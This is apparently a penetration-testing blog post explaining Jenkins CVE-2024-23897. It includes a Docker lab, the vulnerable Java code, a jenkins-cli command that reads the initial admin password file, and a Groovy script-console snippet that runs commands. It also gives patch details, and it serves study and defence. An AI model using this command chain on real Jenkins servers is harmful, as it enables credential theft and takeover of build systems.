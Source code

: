 ```yaml
---
title: "Compromise Jenkins reading files CVE-2024-23897"
description: "This article details how a simple vulnerability discovered in late January 2024 could allow an attacker to compromise Jenkins instances."
date: 2024-02-01T11:47:21+01:00
draft: false
images: [/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png]
featuredImage: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
featuredImagePreview: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
tags: ["Penetration Testing", "Pentest", "Audit"]
---
```


# 💣 From a minor verbose error to full compromise

## The origin

On **January 25, 2024**, researchers from Sonar published 2 vulnerabilities related to the leader in open-source continuous integration and continuous deployment (CI/CD) software: **Jenkins**.

Jenkins plays a central role in **automating software development processes** for a large part of the industry, holding about **44% market share in 2023**. The potential impact of these vulnerabilities is therefore **significant**.

The most concerning flaw, identified as **CVE-2024-23897**, allows unauthenticated attackers to read limited data from arbitrary files and "read-only" authorized attackers to access an entire file on the Jenkins server.

Two vulnerabilities are explained:

- The vulnerability **CVE-2024-23897**:
    - A CVSS score of **9.8/10** (quite concerning) 😮
    - An anonymous attacker can read a limited portion of local files.
- The vulnerability **CVE-2024-23898**:
    - A CVSS score of 8.8/10
    - Allows an attacker to execute arbitrary CLI commands by enticing a victim to click on a malicious link (CSRF).

## In short

The most problematic vulnerability is the first one: **CVE-2024-23897**

- Unauthenticated attackers can read **the first lines of local files** present on the server.
- Authenticated "read-only" attackers can access the entire files.
- This vulnerability can be converted into RCE in several ways:
    - By reading files containing the default password
    - By elevating privileges to admin
    - By reading an SSH key
    - By retrieving secrets on the machine
    - Etc...

Jenkins provides other means to obtain direct command execution on its blog: https://www.jenkins.io/security/advisory/2024-01-24/

## Exploitation

Exploiting the first vulnerability is quite straightforward.

### Vulnerable docker

It's possible to test with vulnerable versions via `Docker`.

```bash
docker pull jenkins/jenkins:2.440-jdk17
docker run  -p 8080:8080 jenkins/jenkins:2.440-jdk17
```

### Environment

First, retrieve the Jenkins utility jenkins-cli.jar via command line.

```sh
wget http://localhost:8080/jnlpJars/jenkins-cli.jar
```
![Installation des outils](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-2.png)

### Vulnerable code

The code below details the vulnerable code.

The function checks if the argument starts with the `@` character, and if so, reads the file at the path following the `@` and creates a new argument for each line.

```java
private String[] expandAtFiles(String args[]) throws CmdLineException {
    List<String> result = new ArrayList<String>();
    for (String arg : args) {
        if (arg.startsWith("@")) {
            File file = new File(arg.substring(1));
            if (!file.exists())
                throw new CmdLineException(this,Messages.NO_SUCH_FILE,file.getPath());
            try {
                result.addAll(readAllLines(file));
            } catch (IOException ex) {
                throw new CmdLineException(this, "Failed to parse "+file,ex);
            }
        } else {
            result.add(arg);
        }
    }
    return result.toArray(new String[result.size()]);
}
```

This means that if an attacker can control an argument, they can extend it to a number of arguments from an arbitrary file on the Jenkins instance.

Hence, exploiting the `expandAtFiles()` function of arg4j displaying a verbose error when attempting to read the file is possible.

### Arbitrary reading...

The command below allows an unauthenticated user to retrieve the first line of the file `/var/jenkins_home/secrets/initialAdminPassword`

```java
java -jar jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080 who-am-i "@/var/jenkins_home/secrets/initialAdminPassword"
```

![File reading](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-3.png)


### ...to RCE

Thus, it's possible to retrieve the default administrator password if it hasn't been changed.

![Admin connexion](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-4.png)

Then, it's possible to log into `/script` to execute our commands.

![Remot code execution](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-1.png)


The code below allows the execution of the `/bin/id` command.

```groovy
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

To conclude, a demonstration is available just below!

### Recommended actions

The Jenkins security team has corrected CVE-2024-23897 by adding a secure configuration disabling the `expandAtFiles` feature.

The following line is removed:

```java
    return new CmdLineParser(this);
```

And replaced by the following lines:

```java
public static boolean ALLOW_AT_SYNTAX = SystemProperties.getBoolean(CLICommand.class.getName() + ".allowAtSyntax");
    // [...]
    ParserProperties properties = ParserProperties.defaults().withAtSyntax(ALLOW_AT_SYNTAX);
    return new CmdLineParser(this, properties);
```

The second vulnerability `CVE-2024-23898`, a direct consequence of the first, has been fixed by adding an origin check to the WebSocket mechanism.

Patch quickly !

### Demonstration

Demonstration with the elements detailed above.

<video src="/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/exploit.mp4" controls autoplay loop title="Exploiting Gitlab with vulnerability CVE-2023-7028" style="width:100%"></video>

## Sources

- https://www.jenkins.io/security/advisory/2024-01-24/#binary-files-note
- https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/
